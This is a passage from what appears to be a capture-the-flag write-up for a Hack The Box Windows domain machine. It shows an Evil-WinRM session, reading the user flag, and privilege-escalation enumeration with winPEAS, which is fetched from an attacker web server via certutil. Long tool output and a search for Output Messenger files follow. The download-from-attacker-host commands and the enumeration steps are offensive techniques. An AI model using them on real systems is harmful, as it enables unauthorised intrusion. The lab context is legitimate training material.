infiltrator\m.harris
```

```cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> whoami /all

USER INFORMATION
----------------

User Name            SID
==================== ==============================================
infiltrator\m.harris S-1-5-21-2606098828-3734741516-3625406802-1105


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
INFILTRATOR\Protected Users                 Group            S-1-5-21-2606098828-3734741516-3625406802-525  Mandatory group, Enabled by default, Enabled group
INFILTRATOR\Developers                      Group            S-1-5-21-2606098828-3734741516-3625406802-1112 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Get the user flag first:

```cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\M.harris\Desktop> type user.txt
•••flag-redacted•••
```

## 6. Privilege escalation

### 6.1. [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

#### Prepare Kali

```sh
VERSION=$(curl -sI https://github.com/peass-ng/PEASS-ng/releases/latest | grep location: | cut -d / -f 8 | tr -d '\r' | tr -d 'v')
curl -sLo /var/www/html/winPEAS.bat https://github.com/peass-ng/PEASS-ng/releases/download/$VERSION/winPEAS.bat
```

#### Download and run on target

```cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> certutil.exe /urlcache /f /split http://10.10.14.35/winPEAS.bat .\winPEAS.bat
****  Online  ****
  0000  ...
  8f0e
CertUtil: -URLCache command completed successfully.
```

<details><summary>Full WinPEAS Output</summary>

```cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> .\winPEAS.bat

            ((,.,/((((((((((((((((((((/,  */
     ,/*,..*(((((((((((((((((((((((((((((((((,
   ,*/((((((((((((((((((/,  .*//((//**, .*((((((*
   ((((((((((((((((* *****,,,/########## .(* ,((((((
   (((((((((((/* ******************/####### .(. ((((((
   ((((((..******************/@@@@@/***/###### /((((((
   ,,..**********************@@@@@@@@@@(***,#### ../(((((
   , ,**********************#@@@@@#@@@@*********##((/ /((((
   ..(((##########*********/#@@@@@@@@@/*************,,..((((
   .(((################(/******/@@@@@#****************.. /((
   .((########################(/************************..*(
   .((#############################(/********************.,(
   .((##################################(/***************..(
   .((######################################(************..(
   .((######(,.***.,(###################(..***(/*********..(
   .((######*(#####((##################((######/(********..(
   .((##################(/**********(################(**...(
   .(((####################/*******(###################.((((
   .(((((############################################/  /((
   ..(((((#########################################(..(((((.
   ....(((((#####################################( .((((((.
   ......(((((#################################( .(((((((.
   (((((((((. ,(############################(../(((((((((.
       (((((((((/,  ,####################(/..((((((((((.
             (((((((((/,.  ,*//////*,. ./(((((((((((.
                (((((((((((((((((((((((((((/
                       by carlospolop


/!\ Advisory: WinPEAS - Windows local Privilege Escalation Awesome Script
   WinPEAS should be used for authorized penetration testing and/or educational purposes only.
   Any misuse of this software will not be the responsibility of the author or of any other collaborator.
   Use it at your own networks and/or with the network owner's permission.

[*] BASIC SYSTEM INFO
 [+] WINDOWS OS
   [i] Check for vulnerabilities for the OS version with the applied patches
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
winPEAS.bat : Access is denied.
    + CategoryInfo          : NotSpecified: (Access is denied.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

ERROR:Description = Access denied
Access is denied.
 [+] DATE and TIME
   [i] You may need to adjust your local date/time to exploit some vulnerability
Wed 12/25/2024
11:23 PM

 [+] Audit Settings
   [i] Check what is being logged


 [+] WEF Settings
   [i] Check where are being sent the logs

 [+] Legacy Microsoft LAPS installed?
   [i] Check what is being logged

 [+] Windows LAPS installed?
   [i] Check what is being logged: 0x00 Disabled, 0x01 Backup to Entra, 0x02 Backup to Active Directory

 [+] LSA protection?
   [i] Active if "1"


 [+] Credential Guard?
   [i] Active if "1" or "2"


 [+] WDigest?
   [i] Plain-text creds in memory if "1"

 [+] Number of cached creds
   [i] You need System-rights to extract them

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    CACHEDLOGONSCOUNT    REG_SZ    10

 [+] UAC Settings
   [i] If the results read ENABLELUA REG_DWORD 0x1, part or all of the UAC components are on
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1


 [+] Registered Anti-Virus(AV)
ERROR:Description = Invalid namespace
Checking for defender whitelisted PATHS

 [+] PowerShell settings
PowerShell v2 Version:

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine
    PowerShellVersion    REG_SZ    2.0

PowerShell v5 Version:

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\3\PowerShellEngine
    PowerShellVersion    REG_SZ    5.1.17763.1

Transcriptions Settings:
Module logging settings:
Scriptblog logging settings:

PS default transcript history

Checking PS history file

 [+] MOUNTED DISKS
   [i] Maybe you find something interesting


 [+] ENVIRONMENT
   [i] Interesting information?

ALLUSERSPROFILE=C:\ProgramData
APPDATA=C:\Users\M.harris\AppData\Roaming
CommonProgramFiles=C:\Program Files\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=DC01
ComSpec=C:\Windows\system32\cmd.exe
CurrentFolder=C:\Users\M.harris\Documents\
CurrentLine= 0x1B[33m[+]0x1B[97m ENVIRONMENT
DriverData=C:\Windows\System32\Drivers\DriverData
E=0x1B[
expl=no
LOCALAPPDATA=C:\Users\M.harris\AppData\Local
long=false
NUMBER_OF_PROCESSORS=2
OS=Windows_NT
Path=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Program Files\Output Messenger Server\Plugins\Output\apache2\bin\;C:\Program Files\Output Messenger Server\Plugins\Output\php\;C:\Program Files\Output Messenger Server\Plugins\Output\mysql\bin\;C:\Users\M.harris\AppData\Local\Microsoft\WindowsApps
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC;.CPL
Percentage=1
PercentageTrack=20
PROCESSOR_ARCHITECTURE=AMD64
PROCESSOR_IDENTIFIER=AMD64 Family 25 Model 1 Stepping 1, AuthenticAMD
PROCESSOR_LEVEL=25
PROCESSOR_REVISION=0101
ProgramData=C:\ProgramData
ProgramFiles=C:\Program Files
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROMPT=$P$G
PSModulePath=C:\Users\M.harris\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules;C:\Windows\system32\WindowsPowerShell\v1.0\Modules
PUBLIC=C:\Users\Public
SystemDrive=C:
SystemRoot=C:\Windows
TEMP=C:\Users\MDB39~1.HAR\AppData\Local\Temp
TMP=C:\Users\MDB39~1.HAR\AppData\Local\Temp
USERDNSDOMAIN=INFILTRATOR.HTB
USERDOMAIN=INFILTRATOR
USERNAME=M.harris
USERPROFILE=C:\Users\M.harris
windir=C:\Windows

 [+] INSTALLED SOFTWARE
   [i] Some weird software? Check for vulnerabilities in unknow software installed
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software

Common Files
Common Files
Hyper-V
internet explorer
Internet Explorer
Microsoft.NET
Output Messenger
Output Messenger Server
PackageManagement
Update Services
VMware
Windows Defender
Windows Defender
Windows Defender Advanced Threat Protection
Windows Mail
Windows Mail
Windows Media Player
Windows Media Player
Windows Multimedia Platform
Windows Multimedia Platform
windows nt
windows nt
Windows Photo Viewer
Windows Photo Viewer
Windows Portable Devices
Windows Portable Devices
Windows Security
WindowsPowerShell
WindowsPowerShell
    InstallLocation    REG_SZ    C:\Program Files\Output Messenger Server\
    InstallLocation    REG_SZ    C:\Program Files\Output Messenger\
    InstallLocation    REG_SZ    C:\Program Files\VMware\VMware Tools\

 [+] Remote Desktop Credentials Manager
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#remote-desktop-credential-manager

 [+] WSUS
   [i] You can inject 'fake' updates into non-SSL WSUS traffic (WSUXploit)
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#wsus

 [+] RUNNING PROCESSES
   [i] Something unexpected is running? Check for vulnerabilities
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#running-processes
ERROR: Access denied
   [i] Checking file permissions of running processes (File backdooring - maybe the same files start automatically when Administrator logs in)
ERROR:Description = Access denied
   [i] Checking directory permissions of running processes (DLL injection)
ERROR:Description = Access denied
 [+] RUN AT STARTUP
   [i] Check if you can modify any binary that is going to be executed by admin or if you can impersonate a not found binary
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#run-at-startup
C:\Documents and Settings\All Users\Start Menu\Programs\Startup\desktop.ini BUILTIN\Administrators:(F)

C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\desktop.ini BUILTIN\Administrators:(F)

Access is denied.*Evil-WinRM* PS C:\Users\M.harris\Documents>
```

</details>

Nothing much found except for `Output Messenger` in `PATH` and `INSTALLED SOFTWARE`

```
Path=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Program Files\Output Messenger Server\Plugins\Output\apache2\bin\;C:\Program Files\Output Messenger Server\Plugins\Output\php\;C:\Program Files\Output Messenger Server\Plugins\Output\mysql\bin\;C:\Users\M.harris\AppData\Local\Microsoft\WindowsApps
⋮
 [+] INSTALLED SOFTWARE
⋮
    InstallLocation    REG_SZ    C:\Program Files\Output Messenger Server\
    InstallLocation    REG_SZ    C:\Program Files\Output Messenger\
    InstallLocation    REG_SZ    C:\Program Files\VMware\VMware Tools\
```

Search for `*OutputMessenger*` reveals a config file:

```cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> Get-ChildItem -Path C:\ -Filter *OutputMessenger* -Recurse -ErrorAction SilentlyContinue -Force


    Directory: C:\Program Files\Output Messenger


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/23/2023   1:41 PM        6826240 OutputMessenger.exe
-a----       12/19/2022  11:07 AM           1788 OutputMessenger.exe.config
⋮
```

Contents of `OutputMessenger.exe.config` 

```xml
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <configSections>
    <section name="entityFramework" type="System.Data.Entity.Internal.ConfigFile.EntityFrameworkSection, EntityFramework, Version=6.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" requirePermission="false"/>
  </configSections>
  <runtime>
    <legacyCorruptedStateExceptionsPolicy enabled="false"/>
  </runtime>
  <startup useLegacyV2RuntimeActivationPolicy="true">
    <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.0"/>
  </startup>
  <system.data>
    <DbProviderFactories>
      <clear/>
      <remove invariant="System.Data.SQLite"/>
      <add name="SQLite Data Provider" invariant="System.Data.SQLite" description="Data Provider for SQLite" type="System.Data.SQLite.SQLiteFactory, System.Data.SQLite"/>
      <remove invariant="System.Data.SQLite.EF6"/>
      <add name="SQLite Data Provider (Entity Framework 6)" invariant="System.Data.SQLite.EF6" description=".NET Framework Data Provider for SQLite (Entity Framework 6)" type="System.Data.SQLite.EF6.SQLiteProviderFactory, System.Data.SQLite.EF6"/>
    </DbProviderFactories>
  </system.data>
  <entityFramework>
    <defaultConnectionFactory type="System.Data.Entity.Infrastructure.SqlConnectionFactory, EntityFramework"/>
    <providers>
      <provider invariantName="System.Data.SqlClient" type="System.Data.Entity.SqlServer.SqlProviderServices, EntityFramework.SqlServer"/>
      <provider invariantName="System.Data.SQLite" type="System.Data.SQLite.EF6.SQLiteProviderServices, System.Data.SQLite.EF6"/>
      <provider invariantName="System.Data.SQLite.EF6" type="System.Data.SQLite.EF6.SQLiteProviderServices, System.Data.SQLite.EF6" />
    </providers>
  </entityFramework>
</configuration>
```
